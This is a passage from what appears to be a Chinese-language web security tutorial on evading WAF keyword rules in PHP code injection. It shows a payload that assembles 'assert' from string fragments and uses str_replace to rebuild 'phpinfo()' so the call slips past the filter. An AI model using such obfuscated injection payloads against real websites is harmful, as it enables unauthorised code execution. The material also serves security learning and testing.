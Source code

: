 pxhpxinxfo() 绕过防护规则，phpinfo（），然后把x 替换为空，达到绕过效果！

![QQ截图20220411195447](image49/QQ截图20220411195447.png)



### 各种绕过尝试

#### ※※拼接+替换绕过

```python
txt=$X='asse';$xx='rt';$xxx=$x.$xx;$y=str_replace('x','','pxhpxinxfo()');assert($y);&submit=%E6%8F%90%E4%BA%A4ce
```

![QQ截图20220411195549](image49/QQ截图20220411195549.png)
